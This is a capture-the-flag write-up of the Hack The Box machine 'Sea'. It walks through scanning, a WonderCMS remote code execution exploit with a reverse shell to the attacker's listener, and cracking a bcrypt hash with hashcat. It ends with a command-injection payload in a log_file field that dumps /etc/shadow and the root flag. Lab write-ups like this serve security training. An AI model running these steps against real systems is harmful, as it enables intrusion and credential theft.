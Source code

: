 ```yaml
---
title: "HTB Seasonal: SEA"
author: "v3l1d"
date: "2024-08-08"
---
```


![](attachment/c4cc9c4aee6aa0e906e23da81acfe73a.jpg)

**Nmap**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 07:55 EDT
Nmap scan report for 10.129.27.223
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.68 seconds

```

![](attachment/bf6ff779445168f6914732ee9f3785f9.png)

```shell
 ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://sea.htb/FUZZ  -mc 200,301,302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://sea.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302
________________________________________________

# directory-list-2.3-medium.txt [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 51ms]
home                    [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 50ms]
0                       [Status: 200, Size: 3650, Words: 582, Lines: 87, Duration: 45ms]
themes                  [Status: 301, Size: 230, Words: 14, Lines: 8, Duration: 43ms]
data                    [Status: 301, Size: 228, Words: 14, Lines: 8, Duration: 42ms]
plugins                 [Status: 301, Size: 231, Words: 14, Lines: 8, Duration: 43ms]

```

All endpoints are forbidden

![](attachment/b101fa38d06f5fbb4be25ccc65f7175b.png)


```shell
wget http://sea.htb/themes/bike/README.md                                       
--2024-08-13 05:23:28--  http://sea.htb/themes/bike/README.md
Resolving sea.htb (sea.htb)... 10.129.111.77
Connecting to sea.htb (sea.htb)|10.129.111.77|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 318 [text/markdown]
Saving to: ‘README.md’

README.md                        100%[==========================================================>]     318  --.-KB/s    in 0s      

2024-08-13 05:23:28 (52.1 MB/s) - ‘README.md’ saved [318/318]

```

Get README.md and LICENSE and analyze content, it says is used WonderCMS

![](attachment/72b505acf6cc17aeff4fafb3135dacfb.png)

Looking online found: [CVE-2023-41425 (WonderCMS Remote Code Execution) - PoC](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413)

![](attachment/bafc9212737fc47089cd6101baff47f0.png)

	Clone the repo and try. After talking with others on discord

```shell
http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.126&lport=4444
```
![](attachment/ef1268efe149e6fffec7386597207bb3.png)

```shell
$ cd /var/www/sea
$ cd sea
$ ls
contact.php
data
index.php
messages
plugins
themes
$ cd data
$ ls
cache.json
database.js
files
$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSA****************",
        "lastLogins": {
            "2024\/08\/13 18:10:26": "127.0.0.1",
            "2024\/08\/13 18:09:26": "127.0.0.1",
            "2024\/08\/13 18:09:25": "127.0.0.1",
            "2024\/08\/13 18:08:25": "127.0.0.1",
            "2024\/08\/13 18:07:25": "127.0.0.1"
        },


```


Fix retrieved hash's format and run hashcat:

```shell
$2y$10$iOrk****************
┌──(kali㉿kali)-[~/HTB/Sea]
└─$ hashcat hash.txt -m 3200 /usr/share/wordlists/rockyou.txt
$2y$10$iOrk21****************:****************
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Wed Aug 14 06:21:53 2024 (46 secs)
Time.Estimated...: Wed Aug 14 06:22:39 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       67 H/s (6.72ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 3056/14344384 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 753159 -> dangerous
Hardware.Mon.#1..: Util: 88%

Started: Wed Aug 14 06:21:13 2024
Stopped: Wed Aug 14 06:22:41 2024

```

![](attachment/4b8223e56cbf8a23659153d34599548d.png)

Try this password in ssh with one of the users listed in /home:

```shell
┌──(kali㉿kali)-[~/HTB/Sea]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.126] from (UNKNOWN) [10.129.166.185] 44840
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 10:25:42 up 41 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
amay
geo

```

![](attachment/5e7f51c554cca528be1ef76f440f477d.png)

Manipulate the request on http://localhost:8888 with BurpSuite, after forwarding this port trough ssh from 8080 of the victim 

```shell
log_file=/etc/shadow;ls&analyze_log=/etc/shadow

root:$6$llVzHhr7xHrvx1wJ$gH0PLbyPaIOqLrpjpzGZbM2bZ/iHaOfv/bj1YRrktVeZ8.1KQ0Jr1Rv/TL/3Qdh84Fwec1UhX2v0LVAGsuzq.0:19775:0:99999:7::: daemon:*:19430:0:99999:7::: bin:*:19430:0:99999:7::: sys:*:19430:0:99999:7::: sync:*:19430:0:99999:7::: games:*:19430:0:99999:7::: man:*:19430:0:99999:7::: lp:*:19430:0:99999:7::: mail:*:19430:0:99999:7::: news:*:19430:0:99999:7::: uucp:*:19430:0:99999:7::: proxy:*:19430:0:99999:7::: www-data:*:19430:0:99999:7::: backup:*:19430:0:99999:7::: list:*:19430:0:99999:7::: irc:*:19430:0:99999:7::: gnats:*:19430:0:99999:7::: nobody:*:19430:0:99999:7::: systemd-network:*:19430:0:99999:7::: systemd-resolve:*:19430:0:99999:7::: systemd-timesync:*:19430:0:99999:7::: messagebus:*:19430:0:99999:7::: syslog:*:19430:0:99999:7::: _apt:*:19430:0:99999:7::: tss:*:19430:0:99999:7::: uuidd:*:19430:0:99999:7::: tcpdump:*:19430:0:99999:7::: landscape:*:19430:0:99999:7::: pollinate:*:19430:0:99999:7::: fwupd-refresh:*:19430:0:99999:7::: usbmux:*:19774:0:99999:7::: sshd:*:19774:0:99999:7::: systemd-coredump:!!:19774:::::: amay:$6$S1AGe5ex2k4D5MKa$gTclSeJwvND3FINpZaK0zfUqk6T9IkhlxCn17fNWLx56u.zP/f/4e5YrJRPsM3TRuuKXQDfYL44RyPzduexsm.:19775:0:99999:7::: lxd:!:19774:::::: geo:$6$5mAIqOze4GJ4s9Zu$P3IgUSHlcCkKpDJ0862IgP5aqaNilEUZDGIm16FiWdxh1A5dfKjmwhMgp3xctHiHZVWGtmKY25cCrILanDPaG.:19934:0:99999:7::: _laurel:!:19936:::::: 
```
![](attachment/9031cba476e653a6aa5180f76feea642.png)

We can get the root flag directly

```shell
log_file=/root/root.txt;ls&analyze_log=/root/root.txt
```

```shell
user:459138e5dbf2****************
root:c58fac105938****************
```